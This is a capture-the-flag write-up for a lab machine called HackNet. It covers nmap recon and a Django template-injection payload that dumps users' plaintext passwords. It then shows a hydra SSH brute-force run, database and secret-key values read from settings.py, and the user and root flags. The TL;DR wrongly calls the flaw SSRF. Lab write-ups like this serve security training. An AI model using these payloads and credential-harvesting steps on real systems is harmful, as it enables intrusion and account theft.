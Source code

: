```yaml
---
layout: default
title: HackNet
---
```


## TL;DR

We exploit `SSRF` on this `Django` platform to get `IDOR` and leak all users hases, then we crack `mikey`'s hash and login using ssh as `mikey`. 

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oN nmap.txt
```

![nmap results](image.png)

we can see port `22` for `ssh` and port `80` for `nginx`.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://hacknet.htb/
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `hacknet.htb` to our `/etc/hosts`:
```bash
10.10.11.85     hacknet.htb
```

### Exploiting SSTI to get IDOR which gives password for users

I scanned the whole pages, I tried to upload webshell for a while but for some reason it didn't work.
Later, i understood this is python framework behind the scenes, more specific `Django` framework, so it simply not executing `php` files.

So, i kept looking for vulnerabilities, until i noticed `SSTI` vulnerability.

First I set my name to {% raw %}{{7*7}}{% endraw %} 

![edit profile first](image-1.png)

Then, i want to `http://hacknet.htb/explore`, and put like to the first user i saw, in this case "glitch".
After putting like, i clicked the "likes" to see who put likes over this post, and saw that something went wrong.

![something went wrong](image-2.png)

I tried different payloads from [https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python), to detect exactly what is the framework behind the scenes.

![payload all the things](image-3.png)

I tried `ih0vr{{364|add:733}}d121r`, and got back `ih0vr1097d121r`, which is pointing over `Django` framework behind the scenes.

![SSTI django](image-4.png)

The problem with that is that `DTL`, or `Django Template Langauge` is very strict, so i can't execute commands at all, or even include variables that are globals.
The only thing i can do is to include variables that are in context, which means the Template Engine uses on run.

First, i tried the `users` variable, because it probably exists, something that holds all the users on the page, to print their attributes and use their image. I sent this payload: {% raw %}{{ users }}{% endraw %}:

I got back this response:

![response](image-5.png)

Which after html decoding gave me:
```bash
<QuerySet [<SocialUser: hexhunter>, <SocialUser: rootbreaker>, <SocialUser: netninja>, <SocialUser: shadowmancer>, <SocialUser: stealth_hawk>, <SocialUser: virus_viper>, <SocialUser: brute_force>, <SocialUser: {{ users.values }}>, <SocialUser: {{ users }}>]>
```

Okay, let's get the values, using {{ users.values }}:

I got this long response:

![get users.values](image-6.png)

Which after decoding:
```py
<QuerySet [{'id': 2, 'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!', 'picture': '2.jpg', 'about': 'A seasoned reverse engineer specializing in binary exploitation. Loves diving into hex editors and uncovering hidden data.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 3, 'email': 'rootbreaker@exploitmail.net', 'username': 'rootbreaker', 'password': 'R00tBr3@ker#', 'picture': '3.jpg', 'about': 'Expert in privilege escalation and bypassing security measures. Always on the lookout for new zero-day vulnerabilities.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 13, 'email': 'netninja@hushmail.com', 'username': 'netninja', 'password': 'N3tN1nj@2024', 'picture': '13.png', 'about': 'Network security expert focused on intrusion detection and prevention. Known for slicing through firewalls with ease.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 16, 'email': 'shadowmancer@cypherx.com', 'username': 'shadowmancer', 'password': 'Sh@d0wM@ncer', 'picture': '16.png', 'about': 'A master of disguise in the digital world, using cloaking techniques and evasion tactics to remain unseen.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 20, 'email': 'stealth_hawk@exploitmail.net', 'username': 'stealth_hawk', 'password': 'St3@lthH@wk', 'picture': '20.jpg', 'about': 'Focuses on stealth operations, avoiding detection while infiltrating systems. A ghost in the machine.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 23, 'email': 'virus_viper@securemail.org', 'username': 'virus_viper', 'password': 'V!rusV!p3r2024', 'picture': '23.jpg', 'about': 'A malware creator focused on developing viruses that spread rapidly. Known for unleashing digital plagues.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 24, 'email': 'brute_force@ciphermail.com', 'username': 'brute_force', 'password': 'BrUt3F0rc3#', 'picture': '24.jpg', 'about': 'Specializes in brute force attacks and password cracking. Loves the challenge of breaking into locked systems.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 31, 'email': 'simple1@gmail.com', 'username': '{{ users.values }}\r\n', 'password': '1', 'picture': 'profile.png', 'about': '', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}]>
```

This basically gave me the usernames and passwords of all users that put like over this page!
For example, `'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!'`.

Now, we'll use this python script to fetch all passwords and usernames, notice in the case above, we want no the username, rather the left side if `hexhunter@ciphermail.com`, the name of the user from the mail:
```py
{% include_relative dump_credentials.py  %}
```

And we got this list:
```bash
blackhat_wolf:Bl@ckW0lfH@ck
brute_force:BrUt3F0rc3#
bytebandit:Byt3B@nd!t123
codebreaker:C0d3Br3@k!
cryptoraven:CrYptoR@ven42
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
datadive:D@taD1v3r
deepdive:D33pD!v3r
exploit_wizard:Expl01tW!zard
glitch:Gl1tchH@ckz
hexhunter:H3xHunt3r!
mikey:mYd4rks1dEisH3re
netninja:N3tN1nj@2024
packetpirate:P@ck3tP!rat3
phreaker:Phre@k3rH@ck
rootbreaker:R00tBr3@ker#
shadowcaster:Sh@d0wC@st!
shadowmancer:Sh@d0wM@ncer
shadowwalker:Sh@dowW@lk2024
stealth_hawk:St3@lthH@wk
trojanhorse:Tr0j@nH0rse!
virus_viper:V!rusV!p3r2024
whitehat:Wh!t3H@t2024
zero_day:Zer0D@yH@ck
```

Then, we can use hydra to trying all credentials:
```bash
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ hydra -C credentials.txt hacknet.htb ssh   
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-25 23:11:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-25 23:11:40
```
And we got valid credentials, `mikey \ mYd4rks1dEisH3re`

![ssh successful](image-7.png)

get the user flag:
```bash
mikey@hacknet:~$ cat user.txt 
8aae1b59fc1a16b621564434b4cb2eae
```

### ...... ?????

Inside `/var/www/HackNet/HackNet/settings.py`

I found this 
```py
SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'
```

and also this
```py
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}
```

Then i connect using `mysql` (show command), and fetch table from hacknet db auth_users, get hash and trying to crack him (not working bro).

### Privilege Escalation to Root


**User Flag:*****`8aae1b59fc1a16b621564434b4cb2eae`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***

